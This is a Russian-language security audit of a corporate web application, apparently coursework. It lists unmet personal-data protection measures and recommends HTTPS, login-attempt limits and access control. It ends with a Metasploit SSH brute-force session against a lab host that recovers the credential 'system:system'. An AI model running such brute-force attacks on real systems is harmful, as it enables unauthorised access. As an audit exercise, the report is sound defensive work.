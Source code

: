 # Отчет



В ходе изучения корпоративного сетевого приложения "Защищённый контур" от компании Х был выявлен ряд несоответствий системы требованиям нормативных документов.

### 1. ПДн: реализация мер по обеспечению безопасности в части ИАФ, УПД.

- ИАФ.1 Идентификация и аутентификация пользователей, являющихся работниками оператора

  Реализовано.

- ИАФ.З Управление идентификаторами, в том числе создание, присвоение, уничтожение идентификаторов

  **Не реализовано.** Нет ограничение на повторное использование идентификатора пользователя. 

- ИАФ.4 Управление средствами аутентификации, в том числе хранение, выдача, инициализация, блокирование средств аутентификации и принятие мер в случае утраты и (или) компрометации средств аутентификации.

  **Не реализовано.** Не задана минимальная сложность пароля пользователя, не задано минимальное количество измененных символов при создании новых паролей.

- ИАФ.5 Защита обратной связи при вводе аутентификационной информации

  **Не реализовано.** При вводе пароля поле ввода не должно дать возможности лицу, не допущенному к данной системе увидеть вводимые символы и количество введенных символов. Рекомендация - скрыть символы и длину пароля при вводе.

- ИАФ.6 Идентификация и аутентификация пользователей, не являющихся работниками оператора (внешних пользователей)

  Реализовано.

- УПД.1 Управление (заведение, активация, блокирование и уничтожение) учетными записями пользователей, в   том числе внешних пользователей.

  Реализовано.

- УПД.2 Реализация необходимых методов (дискреционный, мандатный, ролевой или иной метод), типов (чтение, запись, выполнение или иной тип) и правил разграничения доступа.

  Реализовано.

- УПД.З Управление (фильтрация, маршрутизация, контроль соединений, однонаправленная передача и иные способы управления) информационными потоками между устройствами, сегментами информационной системы, а также между информационными системами.

  **Не реализовано. **Для доступа к системе используется незащищенный протокол http, который передает данные в открытом виде. и позволяет их перехватить или заменить. Рекомендация - использовать криптозащищенный протокол https. 

- УПД.4 Разделение полномочий (ролей) пользователей, администраторов и лиц, обеспечивающих функционирование информационной системы.

  Реализовано.

- УПД.5 Назначение минимально необходимых прав и привилегий пользователям, администраторам и лицам, обеспечивающим функционирование информационной системы.

  Реализовано.

- УПД.6 Ограничение неуспешных попыток входа в информационную систему (доступа к информационной системе). 

  **Не реализовано.** Влечет за собой риск подбора пароля администратора или пользователя методом перебора (брутфорс). Рекомендация - добавить ограничение на количество неудачных попыток, после истечения которых временно блокировать учетную запись.

- УПД.13 Реализация защищенного удаленного доступа субъектов доступа к объектам доступа через внешние информационно-телекоммуникационные сети

  **Не реализовано.** Не обеспечивается возможность фильтрации информационных потоков (фаерволл). 

- УПД.14 Регламентация и контроль использования в информационной системе технологий беспроводного доступа.

  **Не реализовано.** Никаких регламентов нет. 

- УПД.15 Регламентация и контроль использования в информационной системе мобильных технических средств

  **Не реализовано.** Никаких регламентов нет.

- УПД.16 Управление взаимодействием с информационными системами сторонних организаций (внешние информационные системы)

  **Не реализовано.** Никаких регламентов и порядков не описано.

### 2. КТ: "разрешение или запрет доступа к информации, составляющей коммерческую тайну" посредством механизмов разграничения доступа, встроенных в приложение.

- Доступ к странице, содержащей коммерческую тайну доступен без авторизации на сайте по прямой ссылке: http://192.168.56.102:8888/administrate/index.html. Рекомендации - настроить ограничение доступа к страницам сервиса по прямой ссылке неавторизованным пользователям и пользователям, не состоящим в группе "КТ".



### 3. При проверке системы были выявлены следующие уязвимости:

1. Испольльзование незащищенного протокола http. Данная уязвимость позволяет просматривать нешифрованный трафик при атаке "человек посередине". Ниже отображение передаваемой в открытом виде связки логин/пароль: ![](http.jpg)

   Рекомендация - использовать криптозащищенный протокол https.

   

2. Присутствует возможность перебора связки логина/пароля к SSH. Можно использовать Metaisploite framework для подбора по списку. Настроить ограничение на количество попыток через hashlimit, либо отключить ssh. Ниже наглядное представление подбора.

   ```bash
   msf6 > use auxiliary/scanner/ssh/ssh_login 
   msf6 auxiliary(scanner/ssh/ssh_login) > options
   
   Module options (auxiliary/scanner/ssh/ssh_login):
   
      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      BLANK_PASSWORDS   false            no        Try blank passwords for all users
      BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
      DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
      DB_ALL_PASS       false            no        Add all passwords in the current database to the list
      DB_ALL_USERS      false            no        Add all users in the current database to the list
      DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
      PASSWORD                           no        A specific password to authenticate with
      PASS_FILE                          no        File containing passwords, one per line
      RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                                   t
      RPORT             22               yes       The target port
      STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
      THREADS           1                yes       The number of concurrent threads (max one per host)
      USERNAME                           no        A specific username to authenticate as
      USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
      USER_AS_PASS      false            no        Try the username as the password for all users
      USER_FILE                          no        File containing usernames, one per line
      VERBOSE           false            yes       Whether to print output for all attempts
   
   msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.56.102
   RHOSTS => 192.168.56.102
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/
   3-10  3-12  kurs  
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/kurs/
   sk.bin     users.txt  
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/kurs/users.txt
   USER_FILE => ~/netology/kurs/users.txt
   msf6 auxiliary(scanner/ssh/ssh_login) > exploit
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [*] Error: 192.168.56.102: Metasploit::Framework::LoginScanner::Invalid Cred details can't be blank, Cred details can't be blank (Metasploit::Framework::LoginScanner::SSH)
   [*] Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
   VERBOSE => true
   msf6 auxiliary(scanner/ssh/ssh_login) > exploit
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [*] Error: 192.168.56.102: Metasploit::Framework::LoginScanner::Invalid Cred details can't be blank, Cred details can't be blank (Metasploit::Framework::LoginScanner::SSH)
   [*] Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER
   set USERNAME       set USERPASS_FILE  set USER_AS_PASS   set USER_FILE      
   msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE ~/netology/kurs/users.txt
   USERPASS_FILE => ~/netology/kurs/users.txt
   
   Module options (auxiliary/scanner/ssh/ssh_login):
   
      Name              Current Setting            Required  Description
      ----              ---------------            --------  -----------
      BLANK_PASSWORDS   false                      no        Try blank passwords for all users
      BRUTEFORCE_SPEED  5                          yes       How fast to bruteforce, from 0 to 5
      DB_ALL_CREDS      false                      no        Try each user/password couple stored in the current database
      DB_ALL_PASS       false                      no        Add all passwords in the current database to the list
      DB_ALL_USERS      false                      no        Add all users in the current database to the list
      DB_SKIP_EXISTING  none                       no        Skip existing credentials stored in the current database (Accepted: none, user, u
                                                             ser&realm)
      PASSWORD                                     no        A specific password to authenticate with
      PASS_FILE                                    no        File containing passwords, one per line
      RHOSTS            192.168.56.102             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using
                                                             -Metasploit
      RPORT             22                         yes       The target port
      STOP_ON_SUCCESS   false                      yes       Stop guessing when a credential works for a host
      THREADS           1                          yes       The number of concurrent threads (max one per host)
      USERNAME                                     no        A specific username to authenticate as
      USERPASS_FILE     ~/netology/kurs/users.txt  no        File containing users and passwords separated by space, one pair per line
      USER_AS_PASS      false                      no        Try the username as the password for all users
      USER_FILE         ~/netology/kurs/users.txt  no        File containing usernames, one per line
      VERBOSE           true                       yes       Whether to print output for all attempts
   
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/
   3-10  3-12  kurs  
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs
   kurs
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs/
   sk.bin     users.txt  
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs/users.txt
   PASS_FILE => ~/netology/kurs/users.txt
   msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_ACCESS true
   STOP_ON_ACCESS => true
   msf6 auxiliary(scanner/ssh/ssh_login) > run
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [-] 192.168.56.102:22 - Failed: 'root:root'
   [-] 192.168.56.102:22 - Failed: 'root:admin'
   [-] 192.168.56.102:22 - Failed: 'root:test'
   [-] 192.168.56.102:22 - Failed: 'system:sdf'
   [-] 192.168.56.102:22 - Failed: 'system:fsd'
   [+] 192.168.56.102:22 - Success: 'system:system' 'uid=1000(system) gid=1000(system) groups=1000(system),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare) Linux sk 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
   
   ```

   

   
